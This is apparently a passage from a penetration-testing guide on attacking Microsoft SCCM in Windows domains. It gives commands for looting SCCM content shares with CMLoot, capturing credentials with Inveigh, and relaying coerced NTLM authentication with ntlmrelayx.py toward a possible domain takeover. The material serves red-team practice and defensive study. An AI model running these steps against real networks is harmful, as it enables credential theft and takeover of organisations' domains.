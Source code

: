 
=== Windows-based

##### SMB

On Windows, [CMLoot](https://github.com/1njected/CMLoot) (Powershell) was the original implementation of the attack in Powershell.

```powershell
# Index available files
Invoke-CMLootInventory -SCCMHost sccm01.domain.local -Outfile sccmfiles.txt

# Download a single file
Invoke-CMLootDownload -SingleFile \\sccm\SCCMContentLib$\DataLib\SC100001.1\x86\MigApp.xml

# Download all files with a specific extension
Invoke-CMLootDownload -InventoryFile .\sccmfiles.txt -Extension ps1
```

:::


### Authentication Coercion via Client Push Installation

> [!TIP]
> In some case, the "Client Push Accounts" could even be part of the Domain Admins group, leading to a complete takeover of the domain.

The client push installation can be triggered forcefully or - if you're lucky - your compromised machine might not have the SCCM client installed, which mean you could capture the client push installation as it occurs.

#### Option 1: Wait for Client Push Installation

```powershell
# Credential capture using Inveigh 
Inveigh.exe
```

#### Option 2: Forcefully "coerce" the Client Push Installation

> [!WARNING]
> One should read [this blog](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a) before continuing, as this attack might leave traces behind and might mess things up with the SCCM environment.

##### Step 1: prepare coercion listener

Note that you could either capture & crack received credentials or relay them to a suitable target system (or both).

```sh
# On Linux
## Relay using ntlmrelayx.py
ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179
```
```powershell
# On Windows
## Credential capture using Inveigh 
Inveigh.exe
```
